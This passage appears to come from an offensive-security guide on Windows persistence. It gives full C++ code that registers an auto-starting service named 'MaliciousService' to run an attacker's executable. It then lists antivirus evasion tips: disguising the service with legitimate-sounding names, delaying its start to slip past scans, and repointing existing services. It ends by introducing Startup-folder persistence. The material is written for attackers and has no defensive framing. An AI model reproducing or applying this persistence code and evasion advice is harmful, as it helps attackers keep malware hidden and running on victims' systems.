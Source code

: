 #### Example: Creating a Malicious Service in C++
```cpp
#include <windows.h>
#include <iostream>

int main() {
    const char* serviceName = "MaliciousService";
    const char* exePath = "C:\\path_to_malicious_executable.exe";

    // Open Service Control Manager
    SC_HANDLE scmHandle = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
    if (!scmHandle) {
        std::cerr << "Failed to open Service Control Manager." << std::endl;
        return -1;
    }

    // Create the malicious service
    SC_HANDLE serviceHandle = CreateService(
        scmHandle,
        serviceName,
        serviceName,
        SERVICE_ALL_ACCESS,
        SERVICE_WIN32_OWN_PROCESS,
        SERVICE_AUTO_START,  // Automatically start the service at boot
        SERVICE_ERROR_NORMAL,
        exePath,
        NULL, NULL, NULL, NULL, NULL);

    if (!serviceHandle) {
        std::cerr << "Failed to create service." << std::endl;
        CloseServiceHandle(scmHandle);
        return -1;
    }

    std::cout << "Malicious service created!" << std::endl;

    // Cleanup
    CloseServiceHandle(serviceHandle);
    CloseServiceHandle(scmHandle);
    return 0;
}
```

##### AV Evasion Strategies
- Service Naming: Name the service similarly to legitimate services. For example, "Windows Update Service" or "Backup Scheduler" could be used to avoid detection.
- Delayed Start: Use `SERVICE_DEMAND_START` or `SERVICE_DELAYED_AUTO_START` to delay service execution until the system is idle, minimizing the chance of detection during startup scans.
- Modify Existing Services: Instead of creating a new service, modify existing legitimate services to point to the malicious executable or DLL.

# Startup Folder Persistence
A simple yet effective persistence method is placing a shortcut to the malicious executable in the Startup folder. Programs in this folder are automatically launched when a user logs in.
